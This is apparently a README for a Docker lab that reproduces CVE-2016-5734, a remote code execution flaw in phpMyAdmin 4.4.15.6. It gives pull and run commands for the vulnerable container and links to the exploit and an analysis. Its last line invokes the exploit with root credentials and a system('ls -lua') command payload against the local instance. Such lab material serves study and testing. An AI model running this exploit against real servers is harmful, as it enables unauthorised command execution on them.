 * exploit-db: `https://www.exploit-db.com/exploits/40185/`
* analysis: `http://larryxi.github.io/cve-2016-5734-analysis.html`
* pull : ` sudo docker pull 1arry/cve-2016-5734`
* run : `sudo docker run --name test -p 127.0.0.1:8788:80 -d 1arry/cve-2016-5734`
* phpinfo : `http://127.0.0.1:8788/poc/index.php`
* phpmyadmin: `http://127.0.0.1:8788/phpmyadmin-RELEASE_4_4_15_6`
* exploit: `python 40185.py -u root -p 123456 http://127.0.0.1:8788/phpmyadmin-RELEASE_4_4_15_6 -d mysql -c "system('ls -lua');"`
